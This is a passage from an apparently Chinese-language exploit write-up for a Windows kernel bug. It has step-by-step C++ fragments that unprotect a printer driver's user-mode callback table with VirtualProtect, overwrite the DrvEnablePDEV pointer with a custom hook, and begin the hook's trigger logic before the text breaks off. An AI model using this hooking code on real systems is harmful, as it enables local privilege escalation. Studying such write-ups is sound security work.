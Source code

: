 ```
{
    cout << "[-] Failed To Enable The Printer Driver" << endl;
    continue;
}
else
{
    cout << "[+] Enable The Printer Driver" << endl;
}

```

*   使用`VirtualProtect`取消对此打印机驱动的用户态回调函数表的保护

```
DWORD lpflOldProtect = 0;
if (!drvEnableData.pdrvfn)
{
    cout << "[-] Failed To Find The Callback Table Entry" << endl;
    continue;
}
retStatus = VirtualProtect(drvEnableData.pdrvfn, drvEnableData.c * sizeof(DRVFN), PAGE_READWRITE, &lpflOldProtect);
if (!retStatus)
{
    cout << "[-] Failed To Unprotect The Callback Table Entry" << endl;
    continue;
}

```

*   覆写此打印机驱动的用户态回调函数表中指定的函数指针

```
// find the specific callback entry
for (DWORD j = 0; j < drvEnableData.c; ++j)
{
    if(expVal::callbackHook.iFunc == drvEnableData.pdrvfn[j].iFunc)
    {
        expVal::originCallback = drvEnableData.pdrvfn[j].pfn;
        cout << "[+] The Origin Callback Address: " << drvEnableData.pdrvfn[j].pfn << endl;
        drvEnableData.pdrvfn[j].pfn = expVal::callbackHook.pfn;
        cout << "[+] The Hook Callback Address: " << drvEnableData.pdrvfn[j].pfn << endl;
        cout << "[+] Hook The Callback Entry DrvEnablePDEV Successfully" << endl;
        break;
    }
}

```

*   设置自定义回调函数

```
DHPDEV CallbackHook(DEVMODEW* pdm, LPWSTR pwszLogAddress, ULONG cPat,
    HSURF* phsurfPatterns, ULONG cjCaps, ULONG* pdevcaps,
    ULONG cjDevInfo, DEVINFO* pdi, HDEV hdev,
    LPWSTR pwszDeviceName, HANDLE hDriver)
{
    if (!expVal::hdc)
    {
        cout << "[-] Global Hdc Is Invalid" << endl;
    }
    cout << "[+] The " << expVal::count++ << "th time to call DrvEnablePDEV" << endl;
    DHPDEV ret = ((pDrvEnablePDEV)expVal::originCallback)(pdm, pwszLogAddress, cPat, phsurfPatterns, cjCaps, pdevcaps, cjDevInfo, pdi, hdev, pwszDeviceName, hDriver);
    if (expVal::triggerFlag)
    {
        expVal::triggerFlag = FALSE;
```